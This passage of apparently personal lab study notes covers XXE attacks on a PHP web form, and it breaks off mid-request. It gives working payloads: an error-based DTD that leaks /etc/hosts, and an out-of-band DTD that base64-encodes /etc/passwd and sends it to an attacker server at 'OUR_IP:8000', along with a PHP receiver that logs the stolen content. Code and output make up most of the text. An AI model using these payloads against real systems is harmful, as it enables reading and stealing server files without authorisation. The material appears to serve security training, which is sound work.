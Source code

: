 - The request we sent caused the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files.
- Attack host
``` bash
cat > xxe.dtd
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
^C
python3 -m http.server 8000
```
The web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error.
- Call our external DTD script, and then reference the `error` entity:
``` HTTP
POST /error/submitDetails.php HTTP/1.1

<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
- Response
``` HTTP
HTTP/1.1 200 OK

<b>Notice</b>:  DOMDocument::loadXML(): PEReference: %nonExistingEntity; not found in http://10.10.15.200:8000/xxe.dtd, line: 2 in <b>/var/www/html/error/submitDetails.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  DOMDocument::loadXML(): Invalid URI: /127.0.0.1 localhost
127.0.1.1 academy_webattacks_xxe

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
[SNIP].....
```
`this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.
### Out-of-band Data Exfiltration
Instead of having the web application output our `file` entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading.
#### Manually 
* On attacker machine
Create `xxe.dtd` with the content:
``` dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
Create `index.php` with the content:
``` PHP
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
Start PHP server:
``` bash
php -S 0.0.0.0:8000
```
- Send request to the target
``` HTTP
POST /error/submitDetails.php HTTP/1.1
```